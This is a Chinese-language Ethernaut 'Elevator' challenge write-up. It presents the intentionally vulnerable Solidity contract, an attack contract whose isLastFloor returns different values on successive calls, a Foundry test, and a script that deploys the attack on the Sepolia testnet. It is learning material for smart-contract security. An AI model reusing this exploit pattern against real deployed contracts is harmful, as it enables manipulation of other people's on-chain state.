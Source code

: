 # Foundry 通关 Ethernaut（10）— **Elevator**

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

到达最高层（使 top 为 true）

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. **Building ：**一个 Building 接口，需要实现一个 isLastFloor 的函数，输入 uint256 的楼层数字，返回是否是最高层的布尔值

2. **状态变量**:  一个布尔值 top，一个 uint256 的 floor

3. goTo:

   a. 根据调用者地址实例化一个 building 合约 （只有构造合约调用 goTo 函数才能使 msg.sender 为合约地址）

   b. 传入输入的 _floor 楼层值去调用 building 合约的 isLastFloor 函数，如果返回为 false，!false 为 true，则通过 `if` 语句

   c. 更新 floor 值，更新 top 值为 `building.isLastFloor(floor)` 的返回值

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

## 思路

这里我们需要到达最高层，也就是使 top 为 true。大致思路如下

1. top 没有初始化，所以他的默认值为 false。
2. 在合约中，只有 goTo 函数的 `if` 语句中有 top 的更新逻辑，top 的值是根据函数调用的返回值来设置的。
3. 通常情况下，如果调用函数返回值固定，那么无论返回 true 或者 false 都不能同时满足在**通过 `if` 条件判断**的情况下，**更新 top 值为 true**
4. 因此，函数返回值不能是规定的，在两次调用中，去返回不同的 bool 值，比如第一次调用后给一个 bool 标识，或者计数器

### 踩坑

一开始错误的把攻击合约中的 flag 标识设置在了 isLastFloor 函数里，导致 goTo 两次调用 isLastFloor 初始 flag 都是 false，失去标识作用。

## foundry 复现

### 测试

1. 攻击合约

   ```solidity
   contract Attack{
       Elevator public elevator;
       // 标识调用情况，初次调用为 false
       bool flag;
   
       constructor(address _address){
           elevator = Elevator(_address);
       }
   
       function isLastFloor(uint256 floor) external returns (bool){
           
           if(!flag){
               flag = true;
               return false;
           }else{
               flag = false;
               return true;
           }
       }
   
       function attack() public{
           elevator.goTo(1);
       }
   }
   ```

2. 测试脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Test, console} from "forge-std/Test.sol";
   import {Elevator,Attack} from "../src/Elevator.sol";
   
   contract ElevatorTest is Test {
       Elevator public elevator;
       Attack public attack;
   
       function setUp() public {
           elevator = new Elevator();
           attack = new Attack(address(elevator));
       }
   
       function test() public {
           console.log("before",elevator.top());
           attack.attack();
           console.log("after",elevator.top());
       }
   }
   ```

3. 终端输入

   ```solidity
   forge test --match-path test/Elevator.t.sol -vvvv
   ```

   ![image-20240918230916979](../pict/image-20240918230916979.png)

   我们可以看到，攻击合约攻击后，top 状态改变

### 链上交互

1. 交互合约

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Script, console} from "forge-std/Script.sol";
   import {Elevator, Attack} from "../src/Elevator.sol";
   
   contract ElevatorScript is Script {
       Elevator public elevator;
       Attack public attack;
   
       function setUp() public {
           elevator = Elevator("关卡实例合约");
       }
       function run() public {
           vm.startBroadcast();
           attack = new Attack("关卡实例合约");
           console.log("before", elevator.top());
           attack.attack();
           console.log("after", elevator.top());
           vm.stopBroadcast();
       }
   }
   ```

2. 终端部署

   ```bash
   forge script script/Elevator.s.sol --rpc-url $Sepolia_RPC_URL --broadcast --private-key $PRIVATE_KEY 
   ```

   ![image-20240918231558149](../pict/image-20240918231558149.png)

   成功更新






